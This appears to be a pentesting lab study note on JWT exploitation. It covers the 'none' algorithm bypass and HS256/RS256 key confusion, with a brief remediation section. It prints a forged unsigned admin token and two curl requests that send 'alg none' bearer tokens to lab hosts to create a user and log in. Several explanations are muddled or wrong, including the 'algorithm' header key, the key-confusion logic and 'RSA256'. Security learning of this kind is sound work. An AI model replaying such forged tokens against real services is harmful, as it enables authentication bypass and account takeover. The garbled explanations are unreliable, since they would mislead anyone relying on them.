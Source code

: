 # JWT Exploitation

# Notes
	1. JWT has three parts header,payload and signature.
	2. We need header to verify the signature and signature to verify the header.
	3. Header consist of algorithm and its type.
	4. Header,Payload is base64 URL Encoded. Now For signature part
		key='secretkey'
		unsignedtoken=base64(header).base64(payload)
		signature=HMAC-SHA256(key,unsignedtoken) // For HS256 Algorithm
		jwt=base64(header).base64(payload).base64(signature)

## Exploit Part
	1. What if we allow attacker to change the algorithm type?
		1. Lets try to change it to symmetric keys algorithm.
	2. What if he changes it to none algorithm since some jwt libraries don't verify the signature if none algorithm is used?
		1. Now a days secret key is provided, but if not, we don't need signature keys since we can use none-algorithm and no signature
			header={'algorithm':'none'} .payload={}.signature={} => Empty signature.
		2. If secret key is not there, create your own tokens.
	3. What if HS256 is used who uses symmetric keys to verify and sign tokens. I.E secretkey and public key is same?
		1. We would just require publicRSA key and we can create our own tokens using this key.
		2. Because HS256 uses only one secretkey to sign the jWT token and verify the token.

## Remediation
	1. Remediation is to use RSA256 since that is asymettric algorithm, which uses Private key to sign the token and public key to verify the token.
	2. Private key is with sendor only and public key is available to reciever.


## Forged JWT Token
	eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJsb2dpbiI6ICJhZG1pbiIsImlhdCI6ICIxNjY5MTAwOTAyIn0

## Curl Requests
	1. curl -X POST -H “Content-Type: application/json” -H “Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6MSwiaWF0IjoxNTczMzU4Mzk2fQ.” http://192.14.147.3:1337/users -d ‘{ “username”: “test”, “email”: “test@test.com”, “password”: “password”, “role”:”1" }’ | jq
	2. curl -X POST -H “Content-Type: application/json” -H “Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJsb2dpbiI6ICJhZG1pbiIsImlhdCI6ICIxNjY5MTAwOTAyIn0.” http://ptl-37f7c8cb-ac948588.libcurl.so/login.php -d ‘{ “username”: “test1234”, “password”: “test”}’ | jq

## Resources
	1. https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/
	2. https://auth0.com/blog/rs256-vs-hs256-whats-the-difference/
	3. https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f
	4. https://blog.pentesteracademy.com/hacking-jwt-tokens-the-none-algorithm-67c14bb15771
	5. 